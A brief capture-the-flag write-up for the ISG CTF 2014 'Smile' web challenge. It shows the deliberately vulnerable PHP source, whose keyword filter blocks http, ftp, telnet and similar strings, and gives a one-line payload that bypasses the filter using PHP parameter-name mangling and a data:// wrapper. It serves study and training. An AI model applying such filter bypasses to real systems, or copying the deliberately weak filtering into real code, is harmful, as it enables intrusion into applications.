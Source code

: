 # Challenge 
```php 
<?php  
    if (isset($_GET['view-source'])) { 
        show_source(__FILE__); 
        exit(); 
    } 
    include('flag.php'); 
    $smile = 1;  
    if (!isset ($_GET['^_^'])) $smile = 0;  
    if (ereg ('\.', $_GET['^_^'])) $smile = 0;  
    if (ereg ('%', $_GET['^_^'])) $smile = 0;  
    if (ereg ('[0-9]', $_GET['^_^'])) $smile = 0;  
    if (ereg ('http', $_GET['^_^']) ) $smile = 0;  
    if (ereg ('https', $_GET['^_^']) ) $smile = 0;  
    if (ereg ('ftp', $_GET['^_^'])) $smile = 0;  
    if (ereg ('telnet', $_GET['^_^'])) $smile = 0;  
    if (ereg ('_', $_SERVER['QUERY_STRING'])) $smile = 0;  
    if ($smile) { 
        if (@file_exists ($_GET['^_^'])) $smile = 0;  
    }  
    if ($smile) { 
        $smile = @file_get_contents ($_GET['^_^']);  
        if ($smile === "(●'◡'●)") die($flag);  
    }  
?>
```

# Solution 

payload

```
?^.^=data://text/plain;charset=unicode,(●'◡'●)
```



# Refference

+ [ISG CTF 2014：Smile](https://watch0ut.github.io/2014/09/29/ISG-CTF-2014-Write-up-Smile-Chopper-Cryptobaby-GIF/)